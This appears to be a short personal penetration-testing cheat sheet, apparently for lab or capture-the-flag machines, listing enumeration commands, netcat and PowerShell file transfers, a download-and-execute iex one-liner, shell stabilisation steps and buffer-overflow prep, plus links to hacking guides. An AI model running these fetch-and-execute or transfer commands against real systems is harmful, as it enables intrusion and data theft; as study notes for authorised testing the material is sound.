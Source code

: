 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files  \n  
uname -a                         //Posible Linux Kernel Exploit  

WindowsEnum:
--------------------------------------------------
whoami /all
systeminfo


File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000


Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/
https://hashes.org/

Links:
--------------------------------------------------
<https://book.hacktricks.xyz/    /////Cheat Sheet Pentesting all the thing>
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //////File Transfer Cheat Sheet
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   /////////SMB enumeration CheatSheet
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //////////BuferOverFlow tutor
